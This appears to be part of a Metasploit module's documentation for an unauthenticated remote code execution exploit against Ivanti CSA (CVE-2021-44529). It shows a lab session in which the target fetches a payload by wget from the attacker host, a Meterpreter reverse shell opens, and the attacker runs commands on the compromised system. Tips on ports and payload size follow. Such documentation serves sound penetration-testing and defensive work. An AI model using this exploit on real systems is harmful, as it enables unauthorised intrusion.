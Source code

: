 ```
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:1080/oBGKBxPUe3Uos
[*] Client 192.168.100.41 (Wget/1.14 (linux-gnu)) requested /oBGKBxPUe3Uos
[*] Sending payload to 192.168.100.41 (Wget/1.14 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.100.41
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.41:59436) at 2023-01-08 16:52:10 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

## Limitations
Due to the port restrictions of a hardened CSA appliance typically only port `80` and `443` are open for inbound and outbound traffic.
Also avoid using stageless payloads because they may exceed the maximum Cookie header size that will cause the payload delivery to fail.
